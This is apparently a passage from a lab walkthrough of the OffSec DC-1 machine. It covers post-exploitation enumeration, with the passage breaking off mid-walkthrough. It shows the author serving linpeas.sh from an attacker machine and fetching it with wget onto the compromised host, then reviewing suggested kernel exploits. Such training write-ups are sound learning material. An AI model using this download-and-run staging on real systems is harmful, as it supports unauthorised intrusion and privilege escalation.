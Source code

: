 We catted the local.txt file and got the flag, then submitted that to the DC-1 challenge on OffSec.


- Now we download linpeas.sh to our machine via linpeas on github -> PEASS-ng -> releases -> linpeas.sh

- The RELEASES section of github is used whenever something needs to be compiled, and they will put it in releases pre-compiled so you dont have to.


Lets copy linpeas.sh from our downloads directory to our current directory: (a temporary /dev/shm directory)

`cp ~/Downloads/linpeas.sh .`

- Now we are going to setup a temporary python http server using `python3 -m http.server 80` (on our kali machine)

![](https://f004.backblazeb2.com/file/github-images/Pasted+image+20220410143529.png)

So we can see our temporary server running there on the right.

- We can now use `wget 192.168.49.108/linpeas.sh`

- To get the hosted linpeas.sh file from the temporary web server, onto the exploited box.

![](https://f004.backblazeb2.com/file/github-images/Pasted+image+20220410144458.png)

- Now we have downloaded the linpeas.sh file from the temp python server on our host machine, onto the exploited box.

- We can then run linpeas.sh with `bash linpeas.sh`

![](https://f004.backblazeb2.com/file/github-images/Pasted+image+20220410144619.png)

- Found version numbers of the Linux exploited linux box (which is 3.2 and vulnerable).

- Next we see lots of exploits that have the potential to be ran against this machine.

- The important  exploit suggestor is this:

![](https://f004.backblazeb2.com/file/github-images/Pasted+image+20220410144942.png)

- Next we see lots of processes running on the machine.

![](https://f004.backblazeb2.com/file/github-images/Pasted+image+20220410145020.png)

- Next we have the .socket stuff, which is exploitable if we can reboot the computer, but we cant because we are www-data and have no root privileges.

![](https://f004.backblazeb2.com/file/github-images/Pasted+image+20220410145200.png)

- Next, the linpeas script runs port scanning stuff and prints out the details.

- Next we see User Information:

![](https://f004.backblazeb2.com/file/github-images/Pasted+image+20220410145324.png)

Heres the interesting part:
